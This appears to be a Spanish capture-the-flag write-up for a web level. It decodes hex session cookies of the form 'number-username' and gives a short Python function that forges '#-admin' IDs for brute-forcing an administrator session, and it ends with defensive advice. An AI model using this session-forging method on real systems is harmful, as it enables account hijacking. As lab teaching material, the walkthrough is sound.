 Este nivel presenta un registro de usuario similar al del nivel anterior, aunque en esta ocasión no se muestra el código fuente y aparece el mensaje `This page uses mostly the same code as the previous level, but session IDs are no longer sequential`. 

Al registrarnos, podemos observar el ID de la sesión en el inspector de cookies:
```
3135352d4f7264656e6d6f726961
```

Eliminando la cookie para generar una nueva con distintos usuarios, obtenemos la siguiente lista de IDs:
```
3135352d4f7264656e6d6f726961
3335352d497473416d654d6172696f
3436342d41646d696e46724e6f436170
```

Con un mismo nombre de usuario, obtenemos la siguiente lista:
```
3438322d4f7264656e6d6f726961
3534382d4f7264656e6d6f726961
3531302d4f7264656e6d6f726961
```

De esto inferimos que el nombre de usuario se utiliza para codificar el ID de sesión. Al analizar los caracteres de las cookies, observamos que van de 0 - f, lo que indica que la codificación es hexadecimal. Usando [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MzEzNTM1MmQ0ZjcyNjQ2NTZlNmQ2ZjcyNjk2MQozMzM1MzUyZDQ5NzQ3MzQxNmQ2NTRkNjE3MjY5NmYKMzQzNjM0MmQ0MTY0NmQ2OTZlNDY3MjRlNmY0MzYxNzAKMzQzODMyMmQ0ZjcyNjQ2NTZlNmQ2ZjcyNjk2MQozNTM0MzgyZDRmNzI2NDY1NmU2ZDZmNzI2OTYxCjM1MzEzMDJkNGY3MjY0NjU2ZTZkNmY3MjY5NjE) convertimos las IDs a UTF-8, obteniendo las siguientes cadenas:

* Diferentes Usuarios
```
	155-Ordenmoria
	355-ItsAmeMario
	464-AdminFrNoCap
```
* Mismo Usuario:
```
	482-Ordenmoria
	548-Ordenmoria
	510-Ordenmoria
```

Conociendo el formato de las IDs y observando que el rango de 640 IDs del nivel anterior se mantiene, podemos generar IDs de administrador con el formato `#-admin` codificándolas a Hexadecimal. 
```python
def build_admin_session(session_ID):  
    session= str(session_ID) + "-admin"  
    return session.encode('utf-8').hex()
```

Esto nos permite automatizar la búsqueda mediante un [script](), iterando sobre el rango de sesiones hasta encontrar una con privilegios de administrador.

---
## **Conclusión**
 
Los IDs de sesión pueden ser explotados cuando su generación se basa en datos predecibles, por lo que es importante evitar usar esta información en los IDs, además de implementar mecanismos robustos para la gestión de sesiones, como el uso de generadores criptográficamente seguros

---
-,"  
[_P